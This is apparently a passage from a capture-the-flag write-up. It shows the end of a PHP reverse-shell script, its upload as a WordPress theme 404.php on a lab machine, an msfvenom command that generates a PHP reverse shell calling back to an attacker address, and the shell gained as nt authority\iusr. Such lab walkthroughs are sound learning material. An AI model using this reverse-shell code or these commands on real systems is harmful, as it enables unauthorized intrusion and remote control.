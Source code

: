 ```php
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

After uploading it as a 404.php we go to `http://10.10.76.39/retro/wp-content/themes/90s-retro/404.php`. However, it didn't work neither. It gave some strange mistake, so I used another reverse php shell:

```shell
msfvenom -p php/reverse_php LHOST=10.9.32.237 LPORT=4445 -f raw > phprev.php
```

Finally, we got our reverse shell:

```
whoami
nt authority\iusr
```
